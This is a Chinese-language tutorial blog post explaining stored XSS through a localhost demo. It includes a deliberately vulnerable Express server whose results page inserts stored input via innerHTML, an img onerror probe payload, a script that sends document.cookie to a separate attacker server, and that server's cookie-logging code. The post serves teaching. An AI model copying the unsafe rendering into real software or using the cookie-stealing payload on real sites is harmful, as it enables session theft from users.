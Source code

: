 ```yaml
---
tags: ['网络安全', '面试问题 - 网络']
date: '10.24.2019'
---
```


# XSS 攻击 - 存储型

> Posted: 10.24.2019

<Tag />

## 存储型 XSS 的特点

存储型 XSS，也叫持久型 XSS。

主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。）。

然后在下次请求页面的时候就不用带上XSS代码了

最典型的就是留言板XSS：

1. 用户提交了一条包含XSS代码的留言到数据库
2. 当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来
3. 浏览器发现有XSS代码，就当做正常的HTML和JS解析执行
4. XSS攻击就发生了

![xss-stored](/xss-stored.png)

和反射型 XSS 攻击不同的是，<span v-red>**存储型 XSS 直接攻击了具有漏洞的网站本身！**</span>

因为它在数据库里注入了恶意的内容！（当然，最后付出代价的还是用户自己）

## 代码模拟

### 被攻击的服务器

首先我们起一个普通的 node 服务器，作为被攻击的网站服务器。

这个服务器很简单，就是注册用户，然后将用户的邮箱存储到数据库里。

当然，我们这里就不搞真的数据库了，就用内存暂时代替一下。

<span v-line>别问为什么不用 localStorage，localStorage 是 H5 的特性，服务器没有。</span>

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const path = require('path');

const app = express();

// 直接用内存当数据库了
const db = [];

app.use(bodyParser.urlencoded({ extended: true, limit: "50mb" }));
app.use(bodyParser.json({ extended: true, limit: "50mb" }));

app.use(express.static("./xss-stored.html"));
app.use(express.static("./xss-stored-result.html"));

app.get("/index", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored.html'));
});

app.get("/result", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored-result.html'));
});

app.get("/users", (req, res) => {
  res.status(200).json(db);
});

app.post("/register", (req, res) => {
  const { username, email } = req.body;
  db.push({ username, email });
  res.status(200).end('success!');
});

app.listen(8081, () => console.log("SB server running on port 8081"));
```

### 被攻击的客户端

前端就是用来展示搜索的结果

注册页面：

```html
<body>
  <div class="container">
    <form id="myform">
      用户名： <input type="text" placeholder="username..." id="username" /><br />
      邮箱： <input type="text" placeholder="email..." id="email" /><br /><br />
      <button class="submit-btn">注册</button>
    </form>
  </div>
  <script>
    // 绑定表单的提交
    document.querySelector(".submit-btn").addEventListener('click', (e) => {
      e.preventDefault();
      var username = document.querySelector('#username').value;
      var email = document.querySelector('#email').value;
      var data = { username, email };

      var xhr = new XMLHttpRequest();
      xhr.open('post', '/register', true);
      xhr.setRequestHeader('Content-Type', 'application/json');
      xhr.send(JSON.stringify(data));

      xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
          window.location.href = '/result';
        }
      }
    });
  </script>
</body>
```

注册成功后跳转到结果页面：

```html
<body>
  <div class="result"></div>
  <script>
    // 原生 AJAX 方法
    var xhr = new XMLHttpRequest();
    xhr.open('get', `http://localhost:8081/users`, true);
    xhr.send();
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4 && xhr.status === 200) {
        var users = JSON.parse(xhr.responseText);
        users.forEach(user => {
          var div = document.createElement('div');
          var text = '用户名：' + user.username + '，邮箱：' + user.email;
          div.innerHTML = text;
          document.querySelector('.result').appendChild(div);
        });
      }
    }
  </script>
</body>
```

最终实现的效果是这样的：

![xss-stored-pro](/xss-store-pro.gif)

### 攻击者寻找目标

攻击者这个时候会注册 `<img src=null onerror="alert('sb')" />` 这个字符串

能够帮助攻击者定位的，就是在结果页面，攻击代码被执行。

![xss stored attack](/xss-stored-attack.gif)

这个时候，攻击已经开始了，攻击者可以进行一些大胆的想法了。

### 开始攻击

和反射型 XSS 不一样，存储型 XSS 不需要发送任何邮件。

只要用户进入到 `localhost:8081/result` 这个页面，就会被攻击。

### 攻击者的攻击脚本

和反射型 XSS 一样，一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```

### 结果

当用户进入 result 页面时，我们成功地获取到了他的 cookie

![xss-stored-attack-result](/xss-stored-attack-result.png)

## 参考资料

[前端安全之XSS攻击](https://www.cnblogs.com/unclekeith/p/7750681.html)

[What is Cross Site Scripting (XSS) ?](https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/)

<Disqus />